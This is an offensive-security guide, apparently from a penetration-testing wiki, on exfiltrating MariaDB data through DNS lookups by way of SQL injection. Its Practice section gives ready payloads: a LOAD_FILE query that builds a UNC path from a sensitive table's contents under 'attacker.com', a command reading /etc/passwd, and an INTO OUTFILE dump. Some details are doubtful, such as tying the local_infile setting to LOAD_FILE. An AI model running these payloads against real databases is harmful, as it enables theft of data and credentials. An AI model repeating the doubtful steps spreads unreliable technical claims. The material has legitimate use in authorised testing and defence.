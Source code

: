 ```yaml
---
title: MariaDB DNS Exfiltration Techniques Guide
description: Learn how to perform data exfiltration via DNS using MariaDB's SQL injection
  vulnerabilities.
keywords:
- DNS exfiltration
- MariaDB SQL injection
- DNS leak
- LOAD_FILE function
- data exfiltration
- Out of Band attack
- SQL security
- DNS callback
---
```


# MariaDB DNS Exfiltration

## Context

In the realm of offensive cybersecurity, extracting data covertly using SQL injection vulnerabilities is a critical technique. This guide explores DNS-based data exfiltration using MariaDB, leveraging these specific vulnerabilities. By understanding and utilizing DNS leaks and the `LOAD_FILE` function, you can manipulate DNS resolution processes to extract sensitive information.

## Theory

### DNS Leak in MariaDB

DNS leaks occur when sensitive data is transmitted over external DNS queries, often to an attacker-controlled server. In MariaDB, this can be exploited by utilizing its inherent functionality to resolve DNS names, which inadvertently allows data exfiltration. By crafting specific SQL queries, attackers can trigger this name resolution to facilitate data leakage.

### Load_File OOB Technique

The `LOAD_FILE` SQL function in MariaDB is designed to read files from the server's filesystem. An attacker can exploit this function through SQL injection to read sensitive files and leak information outside the intended environment. By executing an out-of-band (OOB) attack, data can be sent to an attacker-controlled DNS server through crafted DNS queries that utilize this function.

### Name Resolution in SQL Injection

SQL injection vulnerabilities can be manipulated to control which queries the database executes. By injecting SQL code that includes DNS queries, attackers can force the database to perform DNS lookups that encode sensitive data, enabling its exfiltration. This technique manipulates normal database behavior to achieve unauthorized data access.

### DNS Callback Mechanism

The DNS callback mechanism involves encoding data within DNS queries and sending these queries to an attacker's domain. This technique takes advantage of how DNS requests inherently travel through network firewalls, allowing data to bypass security controls discreetly. The sophisticated encoding of SQL data into DNS queries makes it an effective method for data exfiltration.

## Practice

### DNS-based Data Exfiltration via SQL Injection

To effectively exfiltrate data using DNS-based methods via SQL injection, follow these steps:

1. **Inject SQL to Trigger DNS Resolution**  
   Execute a SQL command that exploits the `LOAD_FILE` function to include data from a database table as part of a DNS query to an attacker's domain:
   ```bash
   SELECT LOAD_FILE(CONCAT('\\\\', (SELECT data FROM sensitive_table), '.attacker.com\\'));
   ```
   This command causes the server to attempt to resolve a DNS name constructed from the data.

2. **Enable Local File Loading**
   Ensure local file loading is active to facilitate the use of `LOAD_FILE`:
   ```bash
   SET GLOBAL local_infile=1;
   ```

3. **Read Sensitive File**
   This step demonstrates reading a critical file, like `/etc/passwd`, using SQL:
   ```bash
   SELECT LOAD_FILE('/etc/passwd');
   ```
   While this command itself does not directly exfiltrate data via DNS, it shows accessing sensitive files.

4. **Write Data to a File for Exfiltration**
   To prepare data for DNS-based exfiltration, you might first write data to a local file:
   ```bash
   SELECT * FROM sensitive_table INTO OUTFILE '/var/lib/mysql-files/output.txt';
   ```
   Writing data to a file can be a preliminary step before attempting to extract it.

The outcome involves successful extraction of sensitive data via DNS queries to an attacker's server, bypassing traditional network protections.

## Tools

- **dig**
- **tcpdump**
- **Wireshark** 

Employ these tools to capture and analyze DNS traffic, ensuring you can diagnose and verify the exfiltration process as it occurs.